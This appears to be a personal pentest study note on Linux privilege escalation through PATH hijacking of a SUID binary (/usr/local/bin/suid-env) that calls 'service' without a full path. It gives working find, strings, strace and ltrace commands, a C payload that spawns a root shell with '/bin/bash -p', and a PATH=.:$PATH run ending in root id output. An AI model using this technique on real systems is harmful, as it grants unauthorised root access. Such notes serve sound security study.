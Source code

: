 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

FINDING VULNERABLE PROGRAMS

The PATH environment variable contains a list of directories where the shell should try to find programs.

If a program tries to execute another program, but only specifies the program name, rather than its full (absolute) path, the shell will search the PATH directories until it is found.

Since a user has full control over their PATH variable, we can tell the shell to first look for programs in a directory we can write to.

If a program tries to execute another program, the name of that program is likely embedded in the executable file as a string.

We can run strings on the executable file to find strings of characters.

We can also use strace to see how the program is executing. Another program called ltrace may also be of use.

Running strings against a file:
```bash - target
strings /path/to/file
```

Running strace against a command:

```bash - target
strace -v -f -e execve <command> 2>&1 | grep exec
```

Running e ltrace against a command:

```bash - target
ltrace <command>
```

1. Find SUID/SGID files on the target:

```bash - target
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

-rwsr-sr-x 1 root staff 6883 May 14 2017 /usr/local/bin/suid-env

The suid-env file should execute with root user permissions.

2. Run strings on the SUID file:

```bash - target
strings /usr/local/bin/suid-env
```

/lib64/ld-linux-x86-64.so.2
service apache2 start

The file could be trying to run the service program without a full path.

3. We can verify this with strace:

```bash - target
strace -v -f -e execve /usr/local/bin/suid-env 2>&1 | grep service
```

[pid 14395] execve("/bin/sh", ["sh", "-c", "service apache2 start"],

4. Optionally, we can also verify with ltrace:

```bash - target
ltrace /usr/local/bin/suid-env 2>&1 | grep service
```

system("service apache2 start"

This reveals that the system function is being used to execute the service program.

5. Create a file service.c with the following contents:

==service.c==

---
```c - target

int main() {
 setuid(0);

 system("/bin/bash -p");
}
```
---

6. Compile service.c into a file called service:

```bash - target
gcc -o service service.c
```

7. Prepend the current directory (or where the new service executable is located) to the PATH variable, and execute the SUID file for a root shell:

```bash - target
PATH=.:$PATH /usr/local/bin/suid-env
```

```bash - target
id
```

> uid=0(root) gid=0(root) groups=0(root) ...


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

